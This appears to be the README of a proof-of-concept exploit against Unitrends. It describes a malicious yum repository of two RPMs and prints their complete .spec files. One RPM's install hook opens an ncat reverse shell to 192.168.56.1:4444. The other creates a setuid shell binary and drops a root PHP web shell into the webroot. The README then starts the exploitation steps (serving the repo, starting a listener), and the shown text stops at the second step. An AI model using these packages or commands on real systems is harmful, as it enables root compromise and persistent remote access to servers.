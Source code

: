 The ```evilrepo``` folder is a ```yum``` repository that contains two rpm files:

* ```connectback.rpm```: Creates a connectback shell to ```192.168.56.1:4444```. In order to modify the IP and/or port, the RPM, and the repository have to be rebulit. See section [Customization](#customization) for instructions!
* ```phpshell.rpm```: Puts a file called ```_.php``` to the webroot that executes the value of ```cmd``` query parameter as root.

The .spec files for these RPMs:

```
Summary: Empty RPM with connectback shell
Name: connectback
Version: 0
Release: 0
License: Public
Group: Application/System
%description
Empty RPM with connectback shell
%pre
/usr/bin/ncat -e /bin/sh 192.168.56.1 4444
false
%files
```

```
Summary: Package that installs a root PHP shell
Name: phpshell
Version: 0
Release: 0
License: Public
Group: Application/System
%description
Package that installs a root PHP shell
%pre
cp /bin/dash /bin/_
chmod +s /bin/_
echo "<?php print passthru('/bin/_ -c \"'.\$_GET['cmd'].'\"');?>" > /var/www/html/_.php
%files
```

### Exploitation steps for connectback shell

1. Publish the yum repository! I'm used to Python's SimpleHTTPServer, but of course any other HTTP server works.

```
[0x00 unitrends]$ cd poc/evilrepo
[0x00 evilrepo]$ python -mSimpleHTTPServer 8080
```

2. Start a listener in another terminal!
   
```
[0x00 unitrends]$ nc -lv 4444
```
